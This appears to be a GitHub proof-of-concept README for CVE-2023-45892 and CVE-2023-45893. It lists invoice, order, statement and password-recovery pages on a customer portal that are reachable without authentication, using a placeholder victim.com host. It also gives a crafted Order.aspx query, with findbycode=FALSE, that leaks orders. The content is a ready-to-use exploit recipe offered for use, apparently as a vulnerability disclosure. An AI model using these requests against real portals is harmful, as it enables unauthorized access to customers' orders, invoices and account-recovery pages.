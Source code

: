 ## Insights PoC - CVE-2023-45892

Invoices and Orders are accessible unauthenticated

https://insight.victim.com/invoice.aspx?id=1
https://insight.victim.com/order.aspx?id=1

## Customer Portal PoC - CVE-2023-45893

The following are accessible unauthenticated

https://customerportal.victim.com/order.aspx
https://customerportal.victim.com/ratings.aspx
https://customerportal.victim.com/invoice.aspx
https://customerportal.victim.com/passwordrecovery.aspx
https://customerportal.victim.com/statement.aspx
https://customerportal.victim.com/order.aspx
https://customerportal.victim.comm/ratings.aspx
https://customerportal.victim.com/invoice.aspx
https://customerportal.victim.com/passwordrecovery.aspx
https://customerportal.victim.com/statement.aspx

To leak orders, for example, you may need to play with the parameters. replace CITYNAME with the server it's hosted in; if you know. findbycode=false is the the thing allows orders to be leaked here.

`Order.aspx?Id=1&lserver=<CITYNAME>&findbycode=FALSE&pcode=37374&pname=USERNAME`
